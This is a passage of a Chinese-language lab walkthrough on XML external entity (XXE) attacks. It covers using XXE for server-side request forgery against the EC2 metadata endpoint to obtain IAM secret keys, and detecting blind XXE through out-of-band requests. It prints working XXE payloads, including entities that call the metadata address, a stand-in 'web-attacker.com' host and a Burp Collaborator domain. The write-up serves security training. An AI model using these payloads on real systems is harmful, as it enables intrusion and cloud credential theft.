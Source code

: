 - 若要解决实验室问题，请利用 XXE 漏洞执行 SSRF 攻击，并从 EC2 元数据端点中获取服务器的 IAM 访问密钥（SecretAccessKey）。  
  
抓包，修改，重放  
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>

```  
  
显示无效的id latest![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlJMXlmD3chhbe8Y8AwRoGWyOYWm31kYFa4zHfI4IwTAUlTcpApAsGbQ/640?wx_fmt=png&from=appmsg "")  
加路径latest，提示无效id meta-data![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjliaX9OlOVuLeu3Kgo325tYPUEOtCqZuLACJH3evrjLAIuzDPZe7z7AyA/640?wx_fmt=png&from=appmsg "")  
继续加iam![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlopCRImIHuGjAvibDn80obcCPtZK9GiczicicFZawa3ogr4ibQJsNibjhib0xw/640?wx_fmt=png&from=appmsg "")  
最后构造完成，得到key![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlHmoQW1FDiaic16CQQuMx78PWLwcicTicHXtNttmH1Tah3KlfUoUsia2UxdQ/640?wx_fmt=png&from=appmsg "")  
  
# 6.寻找并利用盲 XXE 漏洞  
## 6.1 简述（查找和利用隐蔽的XXE漏洞）：  
1. XXE漏洞的许多实例是盲目的。这意味着应用程序不会在其响应中返回任何已定义的外部实体的值，因此不可能直接检索服务器端文件。  
  
1. 盲XXE漏洞仍然可以检测和利用，但需要更先进的技术。有时可以使用带外技术来查找漏洞，并利用它们来泄漏数据。有时候，可能会触发XML解析错误，从而导致在错误消息中泄漏敏感数据。  
  
## 6.2 XXE盲注  
1. Blind XXE漏洞出现在应用程序易受攻击的地方XXE注射液但不在其响应内返回任何定义的外部实体的值。这意味着直接检索服务器端文件是不可能的，因此盲XXE通常比常规XXE漏洞更难被利用。  
  
1. 可以通过两种广泛的方式查找和利用隐蔽的XXE漏洞： 1、触发带外网络交互，有时会在交互数据中泄漏敏感数据。 2、通过错误消息包含敏感数据的方式触发XML解析错误。  
  
1. 使用带外技术 1、通常可以使用与XXE SSRF攻击相同的技术来检测XXE盲注，但会触发与控制的系统的带外网络交互。 例如，可按如下方式定义外部：  
  
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>

将在XML中的数据值中使用定义的实体

```  
  
此XXE攻击使服务器向指定URL发出后端HTTP请求。攻击者可以监视生成的DNS查找和HTTP请求，从而检测到XXE攻击成功。  
### 实验3：盲XXE-带外交互  
  
**实验目标：**  
- 此实验室具有一个 “Check stock（库存检查）” 功能，它可以解析 XML 输入，但不会显示结果，你可以通过触发与外部域的带外交互来检测盲 XXE 漏洞。  
  
- 若要解决实验室问题，请使用**外部实体**  
使 XML 解析器向 Burp Collaborator 发出 DNS 查找和 HTTP 请求。  
  
检查库存，抓包，在collaborator复制一个域，修改，重放  
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://p2scgyvsl9lyro45tce67jmk5bb2ztni.oastify.com"> ]>

```  
  
成功![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlSutDu26czLsPcmxSwCyHzhstict30lDo7ImavFaSOWdVeU6gMFEVD3A/640?wx_fmt=png&from=appmsg "")  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlVXpu39hZicHN1nQyTPD1fSNacjmL78SCrTfOrkWdicAkfT9h7pGqnaTw/640?wx_fmt=png&from=appmsg "")  
  